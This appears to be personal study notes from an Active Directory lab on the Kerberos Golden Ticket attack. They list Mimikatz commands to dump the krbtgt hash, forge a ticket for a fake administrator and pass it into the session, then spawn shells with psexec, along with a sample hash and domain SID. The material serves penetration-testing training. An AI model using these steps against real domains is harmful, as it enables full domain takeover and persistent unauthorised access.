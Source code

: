 # What is Golden Ticket?
---
- When ==we compromise the **`krbtgt` account**, ==we own the domain.
	- `krbtgt account`: Kerberos Ticket Granting Account
- We can request access to any resource or system or domain.
- **==Golden tickets == complete access to every resource on domain.==**
- **Persistent Access**

# Golden Ticket Attack
---
- We need the `krbtgt account` hash:
- `krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9868111c87647a39a92e31315c0c23c7:::`
- We need `Mimikatz`:
	- `mimikatz.exe`
	- `privilege::debug`
	- `lsadump::lsa /inject /name:krbtgt`
- Copy the following:
	- SID of the Domain : `S-1-5-21-76944399-951576941-787082915`
		- ![[Pasted image 20250330155051.png]]
	- NTLM hash of `krbtgt` account:
		- ![[Pasted image 20250330155128.png]]
	- `kerberos::golden /User:fakeuser123 /domain:MARVEL.local /sid:<copied_sid_of_domain> /krbtgt:<copied_krbtgt_hash> /id:500 /ptt`
		- `id`: Your `rid` (Admin account)
		- `ptt`: Pass the ticket to current session (launch cmd prompt)
	- ![[Pasted image 20250330155358.png]]
	- `misc::cmd`
		- Got the shell:
			- ![[Pasted image 20250330155430.png]]
			- `psexec.exe \\THEPUNISHER cmd.exe` => Spawn a shell
				- ![[Pasted image 20250330155711.png]]
